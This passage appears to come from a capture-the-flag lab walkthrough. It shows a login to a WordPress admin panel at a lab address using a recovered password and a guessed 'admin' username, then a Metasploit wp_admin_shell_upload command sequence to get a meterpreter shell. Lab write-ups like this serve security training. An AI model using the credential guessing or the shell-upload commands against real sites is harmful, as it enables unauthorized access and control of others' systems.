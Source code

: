 
We do see some interesting folder and files.

Since we have already acquired the password **P@s5w0rd!,** we can try to
login to the WordPress site.

We navigate to http://10.10.10.29/wordpress/wp-login.php and try to
guess the username.

Some common usernames are **admin** or **administrator**.

The combination **admin** : **P@s5w0rd!** is successful and we gain
administrative access to the site.

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image96.png"></div>


### &#9702; Foothold


The administrative access can be leveraged through the msfmodule
**“exploit/ unix/webapp/wp\_admin\_shell \_upload”**, to get a
meterpreter shell  on the system. Let’s follow the following commands in
order to get a session:
``` script 
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```